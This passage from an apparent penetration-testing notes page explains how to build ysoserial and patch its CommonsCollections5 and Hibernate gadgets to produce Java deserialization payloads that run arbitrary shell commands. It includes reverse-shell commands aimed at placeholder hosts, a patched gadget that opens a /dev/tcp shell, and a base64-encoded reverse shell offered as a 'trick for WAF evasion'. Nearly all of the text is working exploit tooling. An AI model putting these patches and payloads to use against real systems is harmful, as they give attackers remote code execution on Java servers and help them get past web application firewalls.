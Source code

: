 #### 2.1. `ysoserial` setup

Info about `java` version:
```
# java --version
java 11.0.1 2018-10-16 LTS
Java(TM) SE Runtime Environment 18.9 (build 11.0.1+13-LTS)
Java HotSpot(TM) 64-Bit Server VM 18.9 (build 11.0.1+13-LTS, mixed mode)
```

Building `ysoserial` from source:
```
# apt-get install maven -yqq
# git clone https://github.com/frohoff/ysoserial && cd ysoserial

[ REMEMBER TO PATCH NOW]

# mvn clean package -DskipTests -Dhibernate5 # for Hibernate5 support
# mv target/ysoserial-*-SNAPSHOT-all.jar ~/ysoserial.jar && cd ~
```

Quick smoke test - Hibernate 5:
```
# java -Dhibernate5 -jar ysoserial.jar Hibernate1 'ls' > /tmp/hibernate5.serial
# file /tmp/hibernate5.serial && rm /tmp/hibernate5.serial
/tmp/hibernate5.serial: Java serialization data, version 5
```

Quick smoke test - Commons Collections 5:
```
# java -jar ysoserial.jar CommonsCollections5 'ls' > /tmp/collections5.serial
# file /tmp/collections5.serial && rm /tmp/collections5.serial
/tmp/collections3.serial: Java serialization data, version 5
```

#### 2.2. Some words on patching

To support complex commands, `ysoserial` needs to be patched from a case-to-case basis.

From: `https://github.com/summitt/burp-ysoserial`
```
... commands like the following command would fail to execute on the victim server in the original ysoserial ...
... to run complex commands that pipe command into other commands in java the arguments needs to be a string Array ...

/bin/bash,,-c,,bash -i >& /dev/tcp/X.X.X.X/9997 0>&1

The above code will be split into a string array that java can run on the victim server. :) The resulting java code would look like: Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", "bash -i >& /dev/tcp/X.X.X.X/9997 0>&1"});
```


#### 2.3. `ysoserial` patch 1 - `CommonsCollections5.java`

Since `burp-ysoserial` doesn't offer CommonsCollections5 (CC5) payload, so we need to fix the `ysoserial` manually.

File: `https://raw.githubusercontent.com/frohoff/ysoserial/master/src/main/java/ysoserial/payloads/CommonsCollections5.java`

Find the lines to be modified:
```
# file=`find ~/ysoserial -name CommonsCollections5.java`
# grep -n 'final.*execArgs = new .*' $file
60:		final String[] execArgs = new String[] { command };
# grep -n 'new Class.*execArgs.*' $file
74:					new Class[] { String.class }, execArgs),
```

Applying the patch:
```
# sed -i '60s/.*/final String[] execArgs = new String[]{"\/bin\/bash", "-c", command};/' $file
# sed -i '74s/.*/new Class[] { String[].class }, new Object[]{execArgs}),/' $file
```

Note: payloads like `java -jar ysoserial.jar CommonsCollections5 "sleep 5"` will fail in this case because the command must be executed via `Runtime.getRuntime().exec("sleep 10").waitFor();` -  whereas the `waitFor()` is missing in the gadget's `Transformer` object.


#### 2.4. `ysoserial` patch 2 - Hibernate 5 (`waitFor()` gadget)

File: `https://raw.githubusercontent.com/frohoff/ysoserial/master/src/main/java/ysoserial/payloads/util/Gadgets.java`

Find the lines to be modified:
```
# file=`find ~/ysoserial -name Gadgets.java`
# grep -n '\"\\");\";' $file
118:            "\");";
```

Applying the patch:
```
# sed -i '118s/.*/"\\").waitFor();";/' $file
```

Other patch could be applied for reverse shell:

```
String cmd = "java.lang.Runtime.getRuntime().exec(new String []{\"/bin/bash\",\"-c\",\"exec 5<>/dev/tcp/10.0.0.1/8080;cat <&5 | while read line; do \\$line 2>&5 >&5; done\"}).waitFor();";
```

Nice trick for WAF evasion:

- Default: `bash -i >& /dev/tcp/[IP address]/[port] 0>&1`
- Modified: `bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xLzgwODAgMD4mMQ==}|{base64,-d}|{bash,-i}`
